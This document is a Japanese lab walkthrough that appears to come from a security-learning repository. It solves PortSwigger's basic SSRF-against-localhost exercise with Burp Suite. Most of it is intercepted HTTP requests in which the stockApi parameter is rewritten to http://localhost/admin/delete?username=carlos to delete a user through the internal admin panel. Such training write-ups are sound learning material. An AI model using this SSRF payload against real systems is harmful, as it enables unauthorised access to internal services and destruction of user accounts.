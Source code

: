 # ローカル サーバーに対する基本的な SSRF

以下のハッキングラボに対して SSRF 攻撃を行います  
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost

- 1. Burp Suite を起動して、Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. ハッキングラボ URL/admin 　にアクセスするとページの存在は確認できますが、以下のメッセージが表示されます

```
Admin interface only available if logged in as an administrator, or if requested from loopback
```

- 4. ホームページに移動してから、Burp Suite の Proxy タブで Intercept on にします

- 5. 在庫チェックリクエスト押下します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/9098384a-6212-46ad-85b5-efeb871bb5eb)
- 6. intercept するので、リクエストパラメータを書き換えます  
     [変更前]

```
POST /product/stock HTTP/2
Host: 0a16005f034d4f1b84dfd28b00270079.web-security-academy.net
Cookie: session=PRfFVULO8saCM3IH0ElrfDP9hQkv0ePV
Content-Length: 107
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a16005f034d4f1b84dfd28b00270079.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a16005f034d4f1b84dfd28b00270079.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

[変更後]

```
POST /product/stock HTTP/2
Host: 0a16005f034d4f1b84dfd28b00270079.web-security-academy.net
Cookie: session=PRfFVULO8saCM3IH0ElrfDP9hQkv0ePV
Content-Length: 107
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a16005f034d4f1b84dfd28b00270079.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a16005f034d4f1b84dfd28b00270079.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stockApi=http://localhost/admin
```

- 7. 以下の管理者パネルが表示されるので操作してみますが、失敗します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/b5feeb1f-8942-47ac-b9b1-2061956df22f)

```
Admin interface only available if logged in as an administrator, or if requested from loopback
```

ちなみにリクエストは次のようになっています

```
GET /admin/delete?username=carlos HTTP/2
Host: 0a16005f034d4f1b84dfd28b00270079.web-security-academy.net
Cookie: session=PRfFVULO8saCM3IH0ElrfDP9hQkv0ePV
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a16005f034d4f1b84dfd28b00270079.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

- 8. もう一度管理者ページアクセスして、Delete ボタンのリンクを確認します

- 9. 在庫チェックリクエストを以下のように書き換えます  
     [変更前]

```
POST /product/stock HTTP/2
Host: 0a16005f034d4f1b84dfd28b00270079.web-security-academy.net
Cookie: session=PRfFVULO8saCM3IH0ElrfDP9hQkv0ePV
Content-Length: 107
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a16005f034d4f1b84dfd28b00270079.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a16005f034d4f1b84dfd28b00270079.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

[変更後]

```
POST /product/stock HTTP/2
Host: 0a16005f034d4f1b84dfd28b00270079.web-security-academy.net
Cookie: session=PRfFVULO8saCM3IH0ElrfDP9hQkv0ePV
Content-Length: 107
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a16005f034d4f1b84dfd28b00270079.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a16005f034d4f1b84dfd28b00270079.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stockApi=http://localhost/admin/delete?username=carlos
```

これで一般ユーザーを削除できました。

